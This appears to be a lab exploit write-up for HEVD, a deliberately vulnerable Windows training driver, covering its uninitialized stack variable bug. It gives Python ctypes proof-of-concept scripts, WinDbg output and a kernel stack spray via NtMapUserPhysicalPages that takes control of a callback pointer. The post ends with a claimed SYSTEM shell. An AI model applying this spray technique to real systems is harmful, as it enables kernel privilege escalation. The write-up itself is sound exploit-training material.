 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver UninitializedStackVariable
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


- 目录
{:toc #markdown-toc}

>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Let's work with the same steps like the last challenge.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
psapi = windll.Psapi
ntdll = windll.ntdll

hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
   print "[-] Couldn't get Device Driver handle."
   sys.exit(0)

buf = "\xff\xff\xff\xff"

kernel32.DeviceIoControl(hevDevice, 0x22202F, buf, len(buf), None, 0, byref(c_ulong()), None)
```

Obviously, it triggers an exception, but it work fine.
```
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_STACK_VARIABLE ******
[+] UserValue: 0xFFFFFFFF
[+] UninitializedStackVariable Address: 0x96535AC8
[+] UninitializedStackVariable.Value: 0x00000000
[+] UninitializedStackVariable.Callback: 0x00000400
[+] Triggering Uninitialized Stack Variable Vulnerability
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_STACK_VARIABLE ******
```


## 0x002 Exploit it!

Similarlly, if a UserValue not equal to 0xBAD0B0B0, there will call an Uninitialized Stack Variable
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedstackvariable/0x001.png)

Set a breakpoint at TriggerUninitializedStackVariable method
```
kd> bp HEVD!TriggerUninitializedStackVariable+0x94
kd> bl
     0 e Disable Clear  957c3f8e     0001 (0001) HEVD!TriggerUninitializedStackVariable+0x94

kd> g
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_STACK_VARIABLE ******
[+] UserValue: 0xBAD31337
[+] UninitializedStackVariable Address: 0x8D78BAC8
[+] UninitializedStackVariable.Value: 0x87C37940
[+] UninitializedStackVariable.Callback: 0x00000400
[+] Triggering Uninitialized Stack Variable Vulnerability
Breakpoint 0 hit
HEVD!TriggerUninitializedStackVariable+0x94:
957c3f8e ff95f8feffff    call    dword ptr [ebp-108h]
kd> dps esp
8d78bab8  18048fee
8d78babc  9343b0b0
8d78bac0  9343b120
8d78bac4  957c4ca4 HEVD! ?? ::NNGAKEGL::`string'
8d78bac8  87c37940
8d78bacc  00000400
8d78bad0  00000000
8d78bad4  0017c36c
8d78bad8  0017c464
8d78badc  0017c36c
8d78bae0  8d78bb04
8d78bae4  8406b65c nt!PsChargeSharedPoolQuota+0x42
8d78bae8  0017f014
8d78baec  00000000
8d78baf0  05000000
8d78baf4  000000f8
```
I know the Addr of Callback is 0x8d78bacc with a value of 0x000004

Next step, find the Stack Init Addr(0x8d78bfd0 at this time)
```
kd> !thread
THREAD 87e59830  Cid 0a80.0a74  Teb: 7ffde000 Win32Thread: fd76c160 RUNNING on processor 0
IRP List:
    9343b0b0: (0006,0094) Flags: 00060000  Mdl: 00000000
Not impersonating
DeviceMap                 8bb47a60
Owning Process            85975030       Image:         python.exe
Attached Process          N/A            Image:         N/A
Wait Start TickCount      10277          Ticks: 0
Context Switch Count      24             IdealProcessor: 0             
UserTime                  00:00:00.000
KernelTime                00:00:00.046
Win32 Start Address 0x1c161327
Stack Init 8d78bfd0 Current 8d78b198 Base 8d78c000 Limit 8d789000 Call 00000000
Priority 9 BasePriority 8 PriorityDecrement 0 IoPriority 2 PagePriority 5
ChildEBP RetAddr  Args to Child              
8d78bbd4 957c3fe8 01ace154 8d78bbfc 957c4219 HEVD!TriggerUninitializedStackVariable+0x94 (FPO: [Non-Fpo]) (CONV: stdcall) [c:\hacksysextremevulnerabledriver\driver\uninitializedstackvariable.c @ 120] 
8d78bbe0 957c4219 9343b0b0 9343b120 93543c18 HEVD!UninitializedStackVariableIoctlHandler+0x1a (FPO: [Non-Fpo]) (CONV: stdcall) [c:\hacksysextremevulnerabledriver\driver\uninitializedstackvariable.c @ 151] 
8d78bbfc 83e854bc 934f4dd8 9343b0b0 9343b0b0 HEVD!IrpDeviceIoCtlHandler+0x18b (FPO: [Non-Fpo]) (CONV: stdcall) [c:\hacksysextremevulnerabledriver\driver\hacksysextremevulnerabledriver.c @ 285] 
8d78bc14 84086eee 93543c18 9343b0b0 9343b120 nt!IofCallDriver+0x63
8d78bc34 840a3cd1 934f4dd8 93543c18 00000000 nt!IopSynchronousServiceTail+0x1f8
8d78bcd0 840a64ac 934f4dd8 9343b0b0 00000000 nt!IopXxxControlFile+0x6aa
8d78bd04 83e8c42a 00000070 00000000 00000000 nt!NtDeviceIoControlFile+0x2a
8d78bd04 77ab64f4 00000070 00000000 00000000 nt!KiFastCallEntry+0x12a (FPO: [0,3] TrapFrame @ 8d78bd34)
002df740 77ab4cac 75e1a08f 00000070 00000000 ntdll!KiFastSystemCallRet (FPO: [0,0,0])
002df744 75e1a08f 00000070 00000000 00000000 ntdll!ZwDeviceIoControlFile+0xc (FPO: [10,0,0])
WARNING: Frame IP not in any known module. Following frames may be wrong.
002df7a4 7737ec25 00000070 0022202f 01ace154 0x75e1a08f
···
```

The distance between the Stack Init Addr and Callback variable is 0x504.

Now, I try to spray the kernel stack with a page size of "\x41"(1024*4) by calling NtMapUserPhysicalPages method
```
import sys
from ctypes import *

kernel32 = windll.kernel32
psapi = windll.Psapi
ntdll = windll.ntdll

hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
   print "[-] Couldn't get Device Driver handle."
   sys.exit(0)

ptr_adr = "\x41\x41\x41\x41" * 1024
ntdll.NtMapUserPhysicalPages(None,1024,ptr_adr)

buf = "\xff\xff\xff\xff"

kernel32.DeviceIoControl(hevDevice, 0x22202F, buf, len(buf), None, 0, byref(c_ulong()), None)
```

There is no doubt that our desired address contains our sprayed value.
```
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_STACK_VARIABLE ******
[+] UserValue: 0xBAD31337
[+] UninitializedStackVariable Address: 0x96B6FAC8
[+] UninitializedStackVariable.Value: 0x41414141
[+] UninitializedStackVariable.Callback: 0x41414141
[+] Triggering Uninitialized Stack Variable Vulnerability
Breakpoint 0 hit
HEVD!TriggerUninitializedStackVariable+0x94:
957c3f8e ff95f8feffff    call    dword ptr [ebp-108h]
kd> dps esp
96b6fab8  03cacfee
96b6fabc  87dbf370
96b6fac0  87dbf3e0
96b6fac4  957c4ca4 HEVD! ?? ::NNGAKEGL::`string'
96b6fac8  41414141
96b6facc  41414141
96b6fad0  41414141
96b6fad4  41414141
96b6fad8  41414141
96b6fadc  41414141
96b6fae0  41414141
96b6fae4  41414141
96b6fae8  41414141
96b6faec  41414141
96b6faf0  41414141
96b6faf4  41414141
96b6faf8  41414141
96b6fafc  41414141
96b6fb00  41414141
96b6fb04  41414141
96b6fb08  41414141
96b6fb0c  41414141
96b6fb10  c0802000
96b6fb14  96b6fb40
96b6fb18  83ebd49c nt!MiUpdateWsle+0x231
96b6fb1c  6a2b6001
96b6fb20  0000081d
```

Finally, I will spray upto our shellcode Addr, and get a system cmd.
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedstackvariable/0x002.png)